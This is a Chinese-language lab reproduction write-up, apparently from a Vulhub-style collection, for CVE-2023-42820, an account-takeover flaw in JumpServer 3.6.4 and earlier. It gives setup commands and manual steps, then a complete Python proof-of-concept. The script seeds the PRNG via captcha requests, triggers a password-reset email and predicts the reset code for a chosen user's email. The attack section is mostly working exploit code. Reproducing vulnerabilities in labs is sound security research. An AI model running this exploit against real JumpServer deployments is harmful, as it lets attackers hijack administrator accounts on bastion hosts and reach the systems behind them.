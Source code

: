 # JumpServer随机数种子泄露导致账户劫持漏洞 CVE-2023-42820

## 漏洞描述

JumpServer是一个开源堡垒机系统。在其3.6.4及以下版本中，存在一处账户接管漏洞。攻击者通过第三方库[django-simple-captcha](https://github.com/mbi/django-simple-captcha)泄露的随机数种子推算出找回密码时的用户Token，最终修改用户密码。

参考链接：

- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-7prv-g565-82qp
- https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
- https://www.leavesongs.com/PENETRATION/jumpserver-sep-2023-multiple-vulnerabilities-go-through.html 

## 环境搭建

Vulhub执行如下命令启动一个JumpServer 3.6.3 的服务器：

```
docker compose up -d
```

启动服务需要等待一段时间，之后访问`http://your-ip:8080`即可查看到JumpServer的登录页面。我们使用`admin`作为账号及密码即可登录，第一次登录管理员账号需要修改密码。

## 漏洞复现

使用Vulhub半自动化脚本复现漏洞。由于是半自动化，严格按照如下步骤方可正确复现。

首先，在浏览器第一个Tab中打开忘记密码页面：`http://your-ip:8080/core/auth/password/forget/previewing/`，此时页面上将有一个验证码。

- 如果验证码中包含数字10，则请刷新验证码，因为我们的脚本暂时无法处理数字10
- 如果验证码中不包含数字10，则右键菜单中将该验证码在新Tab下打开

新Tab中验证码的URL类似于`http://your-ip:8080/core/auth/captcha/image/87b2723d404657c2294abfab908975ebb9da5468/`，其中包含该验证码的key（一串sha1 hash值），也就是后面伪随机数使用的种子，记录下这个值作为**seed**。

返回第一个Tab，**刷新页面**。刷新页面的目的是，不使用包含“种子”的验证码，因为这个种子将在后续步骤中使用到。

刷新页面后正确填写用户名和验证码后提交，跳转到验证码验证页面。此时这个页面的URL类似于`http://your-ip:8080/core/auth/password/forgot/?token=sceOx7yWuAH9wWcuzc0nMQmLBzEPNhkhuTfl`，其中包含一个随机的token值，记录下这个值作为**token**。

执行脚本：

```
python poc.py -t http://your-ip:8080 --email admin@whoami.com --seed [seed] --token [token]
```

这个脚本需要传入4个参数：

- `-t` 指定目标JumpServer服务器地址
- `--email` 指定待劫持用户的邮箱地址
- `--seed` 前面记下来的随机数种子（**seed**）
- `--token` 前面记下来的token值（**token**）

> 环境启动失败（mariadb redis版本问题，修改版本启动后服务自动退出）。原docker-compose.yml中版本为：mariadb:10.11.5、redis:6.2.13
>
> 待复现，以下为Vulhub截图：

脚本执行后，将输出预测的code值：

![1](images/1-16967498267261.png)

回到浏览器中，输入该code提交，即可来到修改新密码页面，修改密码即可。

![2](images/2.gif)

## 漏洞POC

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)
```

